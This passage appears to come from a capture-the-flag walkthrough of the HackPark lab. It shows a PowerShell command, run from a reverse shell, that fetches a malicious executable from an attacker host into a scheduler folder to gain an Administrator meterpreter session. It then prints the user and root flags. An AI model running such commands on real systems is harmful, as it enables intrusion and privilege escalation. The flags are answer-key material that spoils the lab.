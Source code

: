 In the existing reverse shell, download your new reverse shell:

~~~
powershell -c "Invoke-WebRequest -Uri 'http://10.9.0.54:8000/Message.exe' -OutFile 'C:\Program Files (x86)\SystemScheduler\Message.exe'"
~~~

After some seconds, we have a meterpreter as `Administrator`:

~~~
[*] Sending stage (176195 bytes) to 10.10.79.198
[*] Meterpreter session 1 opened (10.9.0.54:3456 -> 10.10.79.198:52832) at 2020-05-17 19:19:03 +0200

meterpreter > getuid 
Server username: HACKPARK\Administrator
meterpreter > cd c:\users\jeff\desktop\
meterpreter > ls
Listing: C:\users\jeff\desktop
==============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2019-08-04 20:54:53 +0200  desktop.ini
100666/rw-rw-rw-  32    fil   2019-08-04 20:55:12 +0200  user.txt

meterpreter > cat user.txt 
759bd8af507517bcfaede78a21a73e39
~~~

## #4.6 - What is the root flag?

~~~
meterpreter > cd C:\users\administrator\desktop
meterpreter > ls
Listing: C:\users\administrator\desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  1029  fil   2019-08-04 13:36:42 +0200  System Scheduler.lnk
100666/rw-rw-rw-  282   fil   2019-08-03 19:43:54 +0200  desktop.ini
100666/rw-rw-rw-  32    fil   2019-08-04 20:48:59 +0200  root.txt

meterpreter > cat root.txt
7e13d97f05f7ceb9881a3eb3d78d3e72
~~~

# [Task 5] Privilege Escalation Without Metasploit

## #5.0 - Instructions
